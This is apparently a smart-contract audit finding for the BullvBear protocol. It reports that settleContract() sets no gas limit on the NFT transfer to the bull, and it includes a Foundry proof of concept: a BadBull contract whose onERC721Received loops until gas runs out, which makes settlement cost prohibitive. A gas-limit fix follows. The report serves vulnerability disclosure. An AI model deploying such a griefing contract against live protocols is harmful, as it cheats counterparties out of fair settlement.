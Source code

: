 KingNFT

medium

# [M-01] Bull can gain trading edge by dramatically increasing transaction cost for settlement

## Summary
The 'settleContract()' function has no gas limit while transferring collection to bull. Bull can use as much gas as possible to dramatically increase transaction cost for settlement and gain trading edge.

## Vulnerability Detail
As shown in the test case below, bear need to pay up to 2_770_000 gas to execute 'settleContract()'.
Let's say
```solidity
current market is in bear's favor, bear would earn 100$ profit from bull by settling contract.
```
And the gas cost is
```solidity
50 Gwei
```
ETH price is
```solidity
$2000
```
Then, the transaction cost is about
```solidity
2_770_000  * 50 Gwei * 2000$ = 277$
```
Profit is less than transaction cost , the bear will not do settlement. So financially speaking the bull gain 277$ trading edge in this case.


https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L394

## Impact
Bull can gain trading edge.

## Code Snippet
Related source code
```solidity
function settleContract(Order calldata order, uint tokenId) public nonReentrant {
    // ...
    // @audit no gas limit
    try IERC721(order.collection).safeTransferFrom(bear, bull, tokenId) {}

    catch (bytes memory) {
        IERC721(order.collection).safeTransferFrom(bear, address(this), tokenId);
        withdrawableCollectionTokenId[order.collection][tokenId] = bull;
    }

    // ...
}
```

Test case, put it into 'gasAttack.t.sol' file of 'test' directory.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.17;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {Base} from "./Base.t.sol";

import {BvbProtocol} from "src/BvbProtocol.sol";


contract BadBull {
    uint256 private _junk;
    function onERC721Received(
        address ,
        address ,
        uint256 ,
        bytes calldata
    ) external {
        while (true) { // @audit run out gas, this is about 63/64 of total remaining gas
            _junk += 1;
        }
    }
}

contract ExhaustGasAttack is Base {
    function setUp() public {
        bvb.setAllowedAsset(address(weth), true);
        bvb.setAllowedCollection(address(doodles), true);

        bull = address(new BadBull());
        deal(address(weth), bull, 0xffffffff);
        deal(address(weth), bear, 0xffffffff);
        vm.prank(bull);
        weth.approve(address(bvb), type(uint).max);

        vm.prank(bear);
        weth.approve(address(bvb), type(uint).max);
    }

    function testExhaustGasAttack() public {
        BvbProtocol.Order memory order = defaultOrder();
        order.maker = bear;
        order.isBull = false;

        bytes32 orderHash = bvb.hashOrder(order);

        // Sign the order
        bytes memory signature = signOrderHash(bearPrivateKey, orderHash);

        // Taker (Bull) match with this order
        vm.prank(bull);
        bvb.matchOrder(order, signature);

        // Give a NFT to the Bear + approve
        uint tokenId = 1234;
        doodles.mint(bear, tokenId);
        vm.prank(bear);
        doodles.setApprovalForAll(address(bvb), true);

        // Settle the contract
        vm.prank(bear);
        vm.expectRevert();
        bvb.settleContract{gas: 2_760_000}(order, tokenId); // @audit fail

        vm.prank(bear);
        bvb.settleContract{gas: 2_770_000}(order, tokenId); // @audit success

    }
}
```
## Tool used

Manual Review

## Recommendation
Call with gas limit
```solidity
uint private constant DEFAULT_GAS_LIMIT = 100_000;
function settleContract(Order calldata order, uint tokenId) public nonReentrant {
    _settleContract(order, tokenId, DEFAULT_GAS_LIMIT);
}
function settleContract(Order calldata order, uint tokenId, uint gasLimit) public nonReentrant {
    _settleContract(order, tokenId, gasLimit);
}
function _settleContract(Order calldata order, uint tokenId, uint gasLimit) private {
    // ...
    try IERC721(order.collection).safeTransferFrom{gas: gasLimit}(bear, bull, tokenId) {}

    catch (bytes memory) {
        IERC721(order.collection).safeTransferFrom(bear, address(this), tokenId);
        withdrawableCollectionTokenId[order.collection][tokenId] = bull;
    }

    // ...
}

```
